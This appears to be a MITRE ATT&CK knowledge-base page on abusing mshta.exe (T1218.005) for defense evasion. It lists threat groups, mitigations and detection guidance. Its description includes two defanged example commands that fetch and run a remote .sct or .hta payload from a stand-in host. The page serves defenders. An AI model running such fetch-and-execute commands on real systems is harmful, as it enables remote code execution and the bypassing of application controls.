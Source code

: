 # Mshta (T1218.005)

## Description
Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code      

Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files.  HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. 

Files may be executed by mshta.exe through an inline script: ```mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))```

They may also be executed directly from URLs: ```mshta http[:]//webserver/payload[.]hta```

Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. 

## Parent Technique
- System Binary Proxy Execution (T1218)

## Tactics
- Defense Evasion (TA0005)

## Related Groups
- Sidewinder (G0121)
- Lazarus Group (G0032)
- MuddyWater (G0069)
- Mustang Panda (G0129)
- LazyScripter (G0140)
- TA2541 (G1018)
- APT38 (G0082)
- Inception (G0100)
- Kimsuky (G0094)
- FIN7 (G0046)
- Earth Lusca (G1006)
- APT32 (G0050)
- APT29 (G0016)
- Confucius (G0142)
- TA551 (G0127)
- SideCopy (G1008)
- Gamaredon Group (G0047)

## Mitigations
- Execution Prevention (M1038)
- Disable or Remove Feature or Program (M1042)

## Detection
Use process monitoring to monitor the execution and arguments of mshta.exe. Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed .hta files to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the .hta file being executed.

Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious

### Detailed Detection by Data Source/Component
#### Process: Process Creation (DS0009): 
Use process monitoring to monitor the execution and arguments of mshta.exe.

#### File: File Creation (DS0022): 
Monitor use of HTA files. If they are not typically used within an environment then execution of them may be suspicious

#### Command: Command Execution (DS0017): 
Look for mshta.exe executing raw or obfuscated script within the command-line. Compare recent invocations of mshta.exe with prior history of known good arguments and executed .hta files to determine anomalous and potentially adversarial activity. Command arguments used before and after the mshta.exe invocation may also be useful in determining the origin and purpose of the .hta file being executed.

#### Network Traffic: Network Connection Creation (DS0029): 
Monitor for newly constructed network connections that are sent or received by untrusted hosts. 

